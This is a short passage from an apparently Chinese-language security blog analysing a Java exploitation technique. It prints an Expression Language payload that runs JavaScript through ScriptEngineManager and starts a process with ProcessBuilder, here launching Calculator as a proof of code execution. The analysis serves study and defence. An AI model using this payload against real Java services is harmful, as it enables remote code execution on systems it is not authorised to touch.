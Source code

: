 ![](/hexblog/imgs/211220/00.jpg)

- 实例化时，调用eval方法，传参为x对应的值

![](/hexblog/imgs/211220/01.jpg)

即在实例化时，相当于执行下面这个方法

```java
ElProcessor.eval("\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/Applications/Calculator.app/Contents/MacOS/Calculator']).start()\"")
```

